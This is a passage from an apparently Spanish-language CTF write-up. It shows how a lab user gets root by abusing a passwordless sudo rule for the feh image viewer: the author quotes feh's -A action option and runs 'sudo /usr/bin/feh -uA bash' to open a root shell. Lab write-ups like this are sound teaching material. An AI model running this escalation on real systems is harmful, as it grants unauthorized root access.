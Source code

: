  Para leer la flag root debemos escalar privilegios y como de costumbre comienzo enumerando posibles vectores de escalada de privilegios.

 ```bash
italia@pam:/$ sudo -l
Matching Defaults entries for italia on pam:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User italia may run the following commands on pam:
    (ALL : ALL) NOPASSWD: /usr/bin/feh
 ```

 Podemos ejecutar el binario feh sin contraseña, usaremos este binario para escalar los privilegios.

 Solo debemos buscar la forma...

 Leyendo en el manual del binario feh encuentro varios parámetros que podrían servirme:

 ```bash
-A, --action [flag][[title]]action

             Specify a shell command as an action to perform on the image.

 -u, --unloadable

             Don't display images.  Just print out their names if imlib2 can

             NOT successfully load them.  Returns false if at least one image

             was loadable.
```                         

```bash
italia@pam:/$ sudo /usr/bin/feh -uA bash
./initrd.img
root@pam:/# id
uid=0(root) gid=0(root) grupos=0(root)
root@pam:/# whoami
root
```

Y listo, ya somos root.

> ¡¡¡PERO EXISTE UN PROBLEMA!!!
